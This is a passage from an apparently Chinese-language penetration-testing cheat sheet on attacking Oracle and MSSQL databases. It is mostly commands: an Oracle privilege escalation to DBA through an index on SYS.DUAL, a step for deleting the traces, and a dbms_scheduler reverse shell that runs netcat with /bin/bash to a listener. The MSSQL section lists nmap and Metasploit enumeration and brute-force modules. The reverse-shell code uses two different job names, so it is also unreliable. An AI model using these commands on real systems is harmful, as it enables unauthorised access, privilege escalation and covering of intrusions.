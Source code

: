 **Oracle权限提升和访问DBA**

运行netcat，`netcat -nvlp 443` 。

```text
SQL> create index exploit_1337 on SYS.DUAL(SCOTT.GETDBA('BAR'));
```

**运行查询语句**

```text
SQL> Select * from session_privs;
```

这时你应该拥有一个DBA用户，可以重新运行上面的命令来验证自己是否拥有DBA特权。

**移除利用痕迹：**

```text
drop index exploit_1337;
```

**获取Oracle反弹shell：**

```text
begin
dbms_scheduler.create_job( job_name    => 'MEH1337',job_type    =>
    'EXECUTABLE',job_action => '/bin/nc',number_of_arguments => 4,start_date =>
    SYSTIMESTAMP,enabled    => FALSE,auto_drop => TRUE); 
dbms_scheduler.set_job_argument_value('rev_shell', 1, 'TARGET-IP');
dbms_scheduler.set_job_argument_value('rev_shell', 2, '443');
dbms_scheduler.set_job_argument_value('rev_shell', 3, '-e');
dbms_scheduler.set_job_argument_value('rev_shell', 4, '/bin/bash');
dbms_scheduler.enable('rev_shell'); 
end;
```

### MSSQL

枚举/发现

Nmap

```text
nmap -sU --script=ms-sql-info 192.168.1.108 192.168.1.156
```

Metasploit

```text
msf > use auxiliary/scanner/mssql/mssql_ping
```

#### 爆破 MSSQL登陆

```text
msf > use auxiliary/admin/mssql/mssql_enum
```

#### Metasploit MSSQL Shell
